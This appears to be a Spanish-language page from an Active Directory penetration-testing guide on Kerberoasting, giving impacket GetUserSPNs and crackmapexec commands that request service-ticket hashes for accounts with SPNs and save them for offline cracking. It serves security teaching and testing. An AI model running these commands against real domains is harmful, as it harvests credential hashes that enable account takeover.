 # Obtener usuarios kerberoasteables

```Bash
# Obtención de hash de usuarios con el SPN habilitado
python /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip <DC ip> <nombre dominio completo>/<user>:<pass> -outputfile kerberoasting.hashes

# Hash con crackmapexec
crackmapexec ldap <IP ldap> -u '<user>' -p '<pass>' -d <nombre dominio completo> --kerberoasting <output file>

```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/kerberoasting/vid.gif?raw=true "Obteniendo hashes de usuarios con SPN habilitado")

